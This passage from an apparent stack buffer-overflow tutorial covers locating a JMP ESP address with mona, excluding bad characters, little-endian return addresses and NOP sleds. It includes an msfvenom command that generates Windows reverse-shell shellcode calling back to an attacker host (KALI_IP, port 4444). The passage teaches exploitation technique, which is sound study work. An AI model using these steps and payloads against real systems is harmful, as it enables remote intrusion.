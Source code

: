 ## Finding the jump point

When an access violation occurs, the `ESP` register points to memory which contains the data which was sent to the 
application. JMP ESP Instruction is used to redirect the code execution to that location. To find the JMP ESP, 
use a module of mona with `–cpb` option and all the bad characters found earlier, to prevent mona returning a memory 
pointer with badchars.

With all badchars identified, to use Mona to find a jump point in the application:

```text
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

## Generate payload

Use msfvenom to create the payload:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

## Endianness

There are two ways by which a computer stores multibyte data types like int and float, these two types are known 
as Little Endian and Big Endian. `x86` is known as Little Endian architecture. In this architecture, the last byte 
of the binary is stored first. In Big Endian, the exact opposite happens: The first byte of the binary is stored 
first. When working with `x86` architecture the JMP ESP address must be converted into Little Endian format.

When adding the return address, reverse the JMP address.

## NOP-sled

A NOP-sled (No Operation sled) is a sequence of no-operation instructions which is responsible for sliding the CPU’s execution flow to 
the next memory address. Prepending `nops` before the shellcode, it does not matter where the buffer is located. 
When the return pointer hits the NOP-sled then as the name suggests it is going to slide the return address until it 
reaches the beginning of the shellcode.

NOP values are different for different CPUs. 

To create ssome space in memory for the payload to unpack itself, set the padding variable to a string of `16` or more 
`nops` (`"\x90"`) bytes:
